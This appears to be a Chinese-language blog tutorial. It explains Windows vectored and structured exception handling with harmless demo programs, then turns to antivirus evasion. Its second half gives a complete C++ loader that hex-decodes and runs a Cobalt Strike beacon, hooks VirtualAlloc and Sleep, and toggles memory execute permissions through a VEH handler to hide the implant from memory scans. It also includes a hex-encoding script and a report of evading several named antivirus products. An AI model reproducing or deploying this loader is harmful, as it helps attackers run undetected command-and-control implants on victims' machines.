




CPU检测到异常 -> 查中断表执行处理函数 -> CommonDispatchException -> KiDispatchException ->  KiUserExceptionDispatcher -> RtlDispatchException -> VEH -> SEH


 CPU异常执行的流程

 1、CPU指令检测到异常

 2、查IDT表，执行中断处理函数

 3、调用CommonDispatchException(构建EXCEPTION_RECORD)

 4、KiDispatchException(分发异常：目的是找到异常的处理函数)


# Windows异常处理流程

在Windows中，异常处理的机制包括向量异常处理（VEH）、结构化异常处理（SEH）和C++异常处理（C++EH）。当发生异常时，它们的执行顺序如下：

1. **终止当前程序的执行**：首先，异常导致当前指令的执行被终止。CPU然后开始查找可以处理异常的代码。
2. **调试器**：如果进程正在被调试，操作系统会首先将异常通知给调试器。调试器可以选择处理异常，或者让操作系统继续其正常的异常处理流程。
3. **向量异常处理（VEH）**：如果存在VEH处理器，它们将首先得到机会处理异常。VEH处理器按照它们注册的顺序被调用，如果任何一个VEH处理器处理了异常（即返回`EXCEPTION_CONTINUE_EXECUTION`），则后续的VEH处理器和SEH处理器将不会被调用。
4. **结构化异常处理（SEH）**：如果所有的VEH处理器都无法处理异常，或者没有注册VEH处理器，操作系统会开始调用SEH处理器。SEH处理器按照它们在堆栈中的顺序（即反注册的顺序）被调用，如果任何一个SEH处理器处理了异常（即返回`EXCEPTION_CONTINUE_EXECUTION`），则后续的SEH处理器将不会被调用。
5. **C++异常处理（C++EH）**：如果所有的SEH处理器都无法处理异常，或者没有注册SEH处理器，且异常是一个C++异常（即由C++的`throw`语句抛出的异常），则会调用C++的异常处理器。
6. **如果所有的异常处理器都无法处理异常**：如果所有的异常处理器都无法处理异常，或者没有注册任何异常处理器，操作系统通常会终止当前进程，并显示一个错误消息。

在这个过程中，VEH处理器是优先于SEH处理器被调用的，这是因为VEH处理器更加灵活，可以用来处理一些在SEH中难以处理的异常情况。例如，当发生堆栈溢出时，由于SEH处理器需要使用堆栈来执行，因此无法处理这种异常，但VEH处理器则可以处理


# VEH

## 介绍

向量异常处理（Vectored Exception Handling，VEH）是 Windows 提供的一种异常处理机制，可以用 `AddVectoredExceptionHandler` 函数来添加一个向量异常处理器（vectored exception handler）。这个函数需要两个参数：第一个参数指定处理器的优先级，如果为 `TRUE`，处理器将被添加到链表的开始，如果为 `FALSE`，处理器将被添加到链表的末尾；第二个参数是指向处理器函数的指针


## 代码实例

以下代码中的`idiv ecx`指令是用于将寄存器的EDX:EAX的值除以ECX寄存器的值，并将结果放入EAX中，将余数放入EDX中

> 在x86架构的CPU中，EDX和EAX是32位寄存器。在进行一些特定的操作（比如长除法和长乘法）时，这两个寄存器会一起使用，形成一个64位的值。其中，EDX是高32位，EAX是低32位

在下述代码中， "xor ecx, ecx" 指令将 ECX 寄存器的值设置为 0。当你尝试执行 "idiv ecx" 指令时，就相当于试图用 0 作为除数进行除法运算。在数学中，用 0 作为除数是没有定义的，因此 CPU 会触发一个异常，即你所看到的 0xC0000094

这个异常被你的 VEH 函数捕获，然后修复了异常状态（通过将 ECX 寄存器的值修改为 1），并告诉操作系统继续执行程序。这就是为什么你的程序在除法操作之后能够继续运行，打印出 "veh_code run here again" 的原因

```cpp
#include <stdio.h>
#include <windows.h>

// 声明一个函数指针类型，该函数是用来添加VEH（向量异常处理程序）的
typedef PVOID(NTAPI* FnAddVectoredExceptionHandler)(ULONG, _EXCEPTION_POINTERS*);

// 创建一个指向FnAddVectoredExceptionHandler类型的函数指针变量
FnAddVectoredExceptionHandler MyAddVectoredExceptionHeader;

// 向量异常处理程序。该函数可以返回两种值：EXCEPTION_CONTINUE_EXECUTION 表示已处理异常，EXCEPTION_CONTINUE_SEARCH 表示未处理异常
LONG NTAPI VectExceptionHandler(PEXCEPTION_POINTERS pExcepInfo)
{
    // 当异常发生时，弹出一个消息框提示异常已发生
    ::MessageBoxA(NULL, "VEH Function run", "VEH error", MB_OK);

    // 检查是否发生了除0异常（异常代码0xC0000094），如果是，则处理异常并继续执行程序
    if (pExcepInfo->ExceptionRecord->ExceptionCode == 0xC0000094)
    {
        // 修改寄存器ECX的值为1，避免再次发生除0异常
        pExcepInfo->ContextRecord->Ecx = 1;

        // 返回EXCEPTION_CONTINUE_EXECUTION表示异常已被处理，程序可以继续执行
        return EXCEPTION_CONTINUE_EXECUTION;
    }

    // 如果发生的异常不是我们想要处理的，返回EXCEPTION_CONTINUE_SEARCH表示异常未处理，系统需要寻找其他的异常处理程序来处理这个异常
    return EXCEPTION_CONTINUE_SEARCH;
}

// 添加向量异常处理程序并测试它
VOID VEH()
{
    // 使用MyAddVectoredExceptionHandler函数，将VectExceptionHandler函数添加到VEH链表的头部
    AddVectoredExceptionHandler(1, VectExceptionHandler);

    // 模拟发生一个除0异常，用于测试我们的VEH函数是否可以正常工作
    __asm
    {
        xor edx, edx
        xor ecx, ecx
        mov eax, 0x10
        idiv ecx // EDX:EAX 除以 ECX，由于ECX为0，所以这里会发生除0异常
    }

    // 如果VEH函数正确地处理了异常，那么程序将会继续执行到这里
    printf("veh_code run here again");
}

int main(int argc, char* argv[])
{
    // 调用VEH函数，添加向量异常处理程序并测试它
    VEH();
    getchar();
    return 0;
}
```


# SEH

## 介绍

SEH（Structured Exception Handling，结构化异常处理）是Windows操作系统中的一种错误处理和异常处理机制。SEH提供了一种强大、灵活且通用的方法来处理异常，它使得开发者能够为应用程序中发生的运行时错误和异常编写自定义的处理代码

在C++中，可以使用`_try`、`_except`和`_finally`关键字来实现SEH异常处理。`_try`块包含可能引发异常的代码；`_except`块包含处理异常的代码；而`_finally`块包含在任何情况下都应执行的代码，无论是否发生异常


## 代码实例

在下述例子中，`CauseException` 函数尝试对空指针进行解引用，这会引发一个访问违规（access violation）异常。这个异常在 `main` 函数的 `__try` 块中被捕获，并在 `__except` 块中被处理

```cpp
#include <stdio.h>
#include <windows.h>

void CauseException()
{
    int *p = nullptr;
    *p = 0;  // This will cause an access violation exception
}

int main()
{
    __try {
        CauseException();
    }
    __except(EXCEPTION_EXECUTE_HANDLER) {
        printf("Caught an exception\n");
    }

    return 0;
}
```


# 使用VEH绕过内存查杀

## 简介

在今天的高级网络威胁环境中，恶意软件需要采取复杂的策略来避免被安全软件检测。其中一种策略就是动态地更改执行内存的属性。

通常，杀毒软件会扫描进程中带有可执行属性的内存区域，这是因为它们可能包含恶意代码。

然而，如果我们在适当的时机去除内存区域的可执行属性，就可以避免这种扫描，从而避开杀毒软件的侦查。但是，问题在于，如果我们去除内存的可执行属性，恶意代码就无法运行了。

不过，我们可以利用Windows的异常处理机制，在需要运行恶意代码的时候临时恢复其可执行属性。然后，当代码进入休眠状态时，我们再次去除其可执行属性，使其隐藏起来。这样，恶意代码就可以在需要的时候运行，而在不需要的时候则隐藏起来，避开杀毒软件的侦查。


## 实现思路

1.使用 `AddVectoredExceptionHandler` 注册一个异常处理函数 `FirstVectExcepHandler`，这个函数会在发生异常时被调用。当程序访问了一个非法的内存地址（如访问一个没有权限的内存区域）时，系统会引发一个异常，这时异常处理函数就会被调用


2.使用 `Hook()` 函数钩住 `VirtualAlloc` 和 `Sleep` 两个系统函数。这样，每次调用这两个函数时，实际上都会执行我们定义的 `NewVirtualAlloc` 和 `NewSleep` 函数，其中`NewVirtualAlloc` 函数用于记录分配的内存区域的地址和大小，以便后续操作


3.`NewSleep` 函数中，首次调用时，会释放之前分配的内存，然后唤醒 `Beacon_set_Memory_attributes` 线程，这个线程会修改内存区域的权限为 PAGE_READWRITE，也就是只有读写权限，没有执行权限


4.`FirstVectExcepHandler` 是注册的异常处理函数，当访问的内存区域没有执行权限时，会产生一个异常，这时这个函数会被调用。这个函数首先判断异常是否是访问违规（代码 0xc0000005），并且是否是在我们之前记录的内存区域内，如果是，就将内存区域的权限修改为 PAGE_EXECUTE_READWRITE，也就是添加了执行权限，并让程序继续执行


## 代码实现

首先使用python写一个将二进制文件转换成16进制字符串并保存到txt文件的脚本，这是因为CobaltStrike生成的bin文件会报毒，需对其进行处理

```python
# 导入必要的库
import binascii

# 指定要转换的二进制文件路径
bin_file_path = "cobalt_strike.bin"
# 指定转换结果保存的txt文件路径
txt_file_path = "cobalt_strike_hex.txt"

# 读取二进制文件
with open(bin_file_path, 'rb') as f:
    bin_content = f.read()

# 将二进制内容转换为16进制字符串
hex_content = binascii.hexlify(bin_content).decode()

# 将16进制字符串保存到txt文件
with open(txt_file_path, 'w') as f:
    f.write(hex_content)

print("转换完成，16进制内容已保存到{}中".format(txt_file_path))
```


如下代码是利用VEH异常处理绕过内存查杀的主要实现

```cpp
#include <iostream>
#include<Windows.h>
#include <detours/detours.h>
#include <detours/detver.h>
#include <fstream>
#include <sstream>
#include <iostream>

using namespace std;

// 全局变量声明
LPVOID Beacon_address; // Beacon内存地址
SIZE_T Beacon_data_len; // Beacon内存长度
DWORD Beacon_Memory_address_flOldProtect; // Beacon内存属性
HANDLE hEvent; // 事件句柄

BOOL Vir_FLAG = TRUE; // 感染标记
LPVOID shellcode_addr; // shellcode内存地址

//定义两个指向原函数的指针，分别是Sleep和VirtualAlloc
static VOID(WINAPI* OldSleep)(DWORD dwMilliseconds) = Sleep;
static LPVOID (WINAPI *OldVirtualAlloc)(LPVOID lpAddress, SIZE_T dwSize, DWORD flAllocationType, DWORD flProtect) = VirtualAlloc;

//定义Sleep和VirtualAlloc的钩子函数
LPVOID WINAPI NewVirtualAlloc(LPVOID lpAddress, SIZE_T dwSize, DWORD flAllocationType, DWORD flProtect) {
	Beacon_data_len = dwSize;
	Beacon_address = OldVirtualAlloc(lpAddress, dwSize, flAllocationType, flProtect);
	printf("Memory Allocation Size:%d\n", Beacon_data_len);
	printf("Memory Allocation Address:%llx \n", Beacon_address);
	return Beacon_address;
}
void WINAPI NewSleep(DWORD dwMilliseconds)
{
	if (Vir_FLAG)
	{	
		printf("Free Memory Address:%llx\n", shellcode_addr);
		VirtualFree(shellcode_addr, 0, MEM_RELEASE);
		Vir_FLAG = false;
	}
	printf("The time of Sleep:%d\n", dwMilliseconds);
	SetEvent(hEvent);
	OldSleep(dwMilliseconds);
}

//对函数进行inlineHook
void Hook()
{
	DetourRestoreAfterWith(); //避免重复HOOK
	DetourTransactionBegin(); // 开始HOOK
	DetourUpdateThread(GetCurrentThread());
	DetourAttach((PVOID*)&OldVirtualAlloc, NewVirtualAlloc);
	DetourAttach((PVOID*)&OldSleep, NewSleep);
	DetourTransactionCommit(); //  提交HOOK
}

//解除对函数的inlineHook
void UnHook()
{
	DetourTransactionBegin();
	DetourUpdateThread(GetCurrentThread());
	DetourDetach((PVOID*)&OldVirtualAlloc, NewVirtualAlloc);
	DetourTransactionCommit();
}

//判断异常代码的地址是否在Beacon内存的范围之内
BOOL is_Exception(DWORD64 Exception_addr)
{
	if (Exception_addr < ((DWORD64)Beacon_address + Beacon_data_len) && Exception_addr >(DWORD64)Beacon_address)
	{
		printf("The Exception Address is a match:%llx\n", Exception_addr);
		return true;
	}
	printf("The Exception Address not a match:%llx\n", Exception_addr);
	return false;
}

// 定义VEH的异常处理函数
LONG NTAPI FirstVectExcepHandler(PEXCEPTION_POINTERS pExcepInfo)
{
	printf("FirstVectExcepHandler\n");
	printf("The Exception Code is :%x\n", pExcepInfo->ExceptionRecord->ExceptionCode);
	printf("The Thread Address is :%llx\n", pExcepInfo->ContextRecord->Rip);		   
	if (pExcepInfo->ExceptionRecord->ExceptionCode == 0xc0000005 && is_Exception(pExcepInfo->ContextRecord->Rip))
	{
		printf("Modify the memory attribute to executable\n");
		VirtualProtect(Beacon_address, Beacon_data_len, PAGE_EXECUTE_READWRITE, &Beacon_Memory_address_flOldProtect);
		return EXCEPTION_CONTINUE_EXECUTION;
	}
	return EXCEPTION_CONTINUE_SEARCH;
}

// 线程函数，用于将Beacon的内存属性设置为可读写，即去掉可执行权限
DWORD WINAPI Beacon_set_Memory_attributes(LPVOID lpParameter)
{
	while (true)
	{
		WaitForSingleObject(hEvent, INFINITE);
		printf("Set Beacon memory attribute unexecutable\n");
		VirtualProtect(Beacon_address, Beacon_data_len, PAGE_READWRITE, &Beacon_Memory_address_flOldProtect);
		ResetEvent(hEvent);
	}
	return 0;
}

// 将十六进制中的单个字符转换为相应的整数值
unsigned char hexCharToByte(char character) {
	if (character >= '0' && character <= '9') {
		return character - '0';
	}
	if (character >= 'a' && character <= 'f') {
		return character - 'a' + 10;
	}
	if (character >= 'A' && character <= 'F') {
		return character - 'A' + 10;
	}
	return 0;
}

// 将十六进制字符串转换成字节型数组
void hexStringToBytes(const std::string& hexString, unsigned char* byteArray, int byteArraySize) {
	for (int i = 0; i < hexString.length(); i += 2) {
		byteArray[i / 2] = hexCharToByte(hexString[i]) * 16 + hexCharToByte(hexString[i + 1]);
	}
}


int main()
{	
	
	hEvent = CreateEvent(NULL, TRUE, false, NULL); // 创建事件(一开始无信号)

	AddVectoredExceptionHandler(1, &FirstVectExcepHandler); // 添加异常处理函数
	
	Hook(); //开始Hook

	//创建线程
	HANDLE hThread1 = CreateThread(NULL, 0, Beacon_set_Memory_attributes, NULL, 0, NULL);
	CloseHandle(hThread1);


	std::ifstream file("beacon_hex.txt");  //打开指定文件
	size_t size;  //定义文件内容的字节数
	string contents; //定义文件内容

	//判断文件是否打开成功
	if (file.is_open()) {
		std::stringstream buffer; //创建一个stringstream对象
		buffer << file.rdbuf();  //将文件的内容复制到该流中
		contents = buffer.str();  //将stringstream对象的内容转换string,并将其存储在contents中

		size = contents.length() / 2;  //由于两个十六进制相当于一个字节,因此文件内容长度需除以2
		file.close();  //关闭文件
	}

	// 为shellcode申请一块内存
	shellcode_addr = VirtualAlloc(NULL, size, MEM_COMMIT, PAGE_READWRITE);

	// 调用函数将十六进制字符串转换为字节型数组
	hexStringToBytes(contents, (unsigned char *)shellcode_addr, size);

	// 修改内存属性为可读写
	VirtualProtect(shellcode_addr, size, PAGE_EXECUTE_READWRITE, &Beacon_Memory_address_flOldProtect);
	
	// 执行shellcode
	(*(int(*)()) shellcode_addr)();
	
	// 解除Hook
	UnHook();

	return 0;
}
```


## 运行测试

打开Cobalt Strike生成Raw格式的shellcode文件，注意要选择Stageless

	


使用`BinToHex.py`将bin文件转为存放16进制字符串的文本文件，并将其与可执行文件放在同一目录

	


运行可执行程序后，cs成功显示上线，数字杀软也没有报毒，在程序的控制台输出可以看到，分配了两段内存，第一段内存是为储存shellcode分配的，第二段是执行shellcode后它自己分配的，后续会将第一段内存给释放掉，然后修改第二段内存的属性来绕过杀软




我测试了下，某绒和数字杀软都能上线并执行命令，卡巴斯基之前是可以过的，但现在不行了。WindowsDefend也能上线，但是第二次回连被检测出了CS流量特征，以下是VT的杀毒查杀率

	


## 参考文章

- https://forum.butian.net/share/783	

- https://xz.aliyun.com/t/9399

